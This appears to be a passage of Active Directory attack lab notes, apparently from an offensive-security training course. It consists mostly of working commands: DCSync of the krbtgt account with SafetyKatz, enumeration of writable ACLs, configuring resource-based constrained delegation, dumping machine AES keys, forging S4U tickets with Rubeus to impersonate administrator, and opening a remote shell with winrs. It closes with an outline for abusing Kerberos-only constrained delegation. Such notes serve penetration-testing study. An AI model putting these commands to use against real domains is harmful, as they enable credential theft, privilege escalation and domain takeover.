 ```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

#### Resource-based Constrained Delegation


We already have access to a domain joined machine.
• Let's enumerate if we have Write permissions over any object.


Using PowerView:

```
Find-InterestingDomainAcl | ?{$_.identityreferencename -
match 'mgmtadmin'}
```

Using the ActiveDirectory module, configure RBCD on us-helpdesk for
student machines :

```
$comps = 'student1$','student2$' Set-ADComputer -Identity us-helpdesk -
PrincipalsAllowedToDelegateToAccount $comps
```

Now, let's get the privileges of studentx$ by extracting its AES keys:

```
SafetyKatz.exe '"sekurlsa::ekeys"'
```

Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user we
want:

```
Rubeus.exe s4u /user:student1$
/aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d
83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk
/impersonateuser:administrator /ptt
```


```
winrs -r:us-helpdesk cmd.exe
```

#### Constrained Delegation -Kerberos Only

• It requires an additional forwardable ticket to invoke S4U2Proxy.
• We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.

• We can leverage RBCD to abuse Kerberos Only configuration.
- Create a new Machine Account
- Configure RBCD on the machine configured with Constrained Delegation.
- Obtain a TGS/Service Ticket for the machine configured with Constrained 
  Delegation by leveraging the newly created Machine Account.
- Request a new forwardable TGS/Service Ticket by leveraging the ticket created in
  previous step.

